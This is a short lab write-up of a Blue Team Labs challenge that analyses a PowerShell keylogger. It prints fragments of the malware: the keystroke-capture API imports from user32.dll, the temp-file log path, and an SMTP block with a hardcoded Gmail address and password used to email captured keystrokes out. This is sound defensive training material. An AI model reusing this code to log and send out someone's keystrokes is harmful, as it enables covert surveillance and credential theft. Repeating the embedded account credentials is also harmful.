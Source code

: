 ```yaml
---
author: pl4int3xt
layout: post
title: PowerShell Analysis - Keylogger
date: '2023-10-08 20:23:20 +0300'
cover: /img/cover_images/3.png
description: "A suspicious PowerShell script was found on one of our endpoints. Can you work out what it does?"
categories: [BTLO, Reverse Engineering]
tags: [BTLO, Text Editor]
---
```


## PowerShell Analysis - Keylogger
A suspicious PowerShell script was found on one of our endpoints. Can you work out what it does? 

##  What is the SHA256 hash value for the PowerShell script file? (1 points) 

```bash
❯ sha256sum HDWallpaperEngine.txt
e0b7a2ad2320ac32c262aeb6fe2c6c0d75449c6e34d0d18a531157c827b9754e
```

##  What email address is used to send and receive emails? (1 points) 
```bash
$From = "chaudhariparth454@gmail.com"
$Pass = "yjghfdafsd5464562!"
$To = "chaudhariparth454@gmail.com"
$Subject = "Keylogger Results"
```

##  What is the password for this email account? (2 points) 

```bash
$Pass = "yjghfdafsd5464562!"
```

##  What port is used for SMTP? (2 points) 

```bash
$SMTPPort = "587"
```

##  What DLL is imported to help record keystrokes? (2 points) 

```bash
#requires -Version 2
function Start-KeyLogger($Path="$env:temp\keylogger.txt") 
{
  # Signatures for API Calls
  $signatures = @'
[DllImport("user32.dll", CharSet=CharSet.Auto, ExactSpelling=true)] 
public static extern short GetAsyncKeyState(int virtualKeyCode); 
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int GetKeyboardState(byte[] keystate);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int MapVirtualKey(uint uCode, int uMapType);
[DllImport("user32.dll", CharSet=CharSet.Auto)]
public static extern int ToUnicode(uint wVirtKey, uint wScanCode, byte[] lpkeystate, System.Text.StringBuilder pwszBuff, int cchBuff, uint wFlags);
'@
```
##  What directory is the generated txt file put in? (2 points) 

```bash
#requires -Version 2
function Start-KeyLogger($Path="$env:temp\keylogger.txt") 
```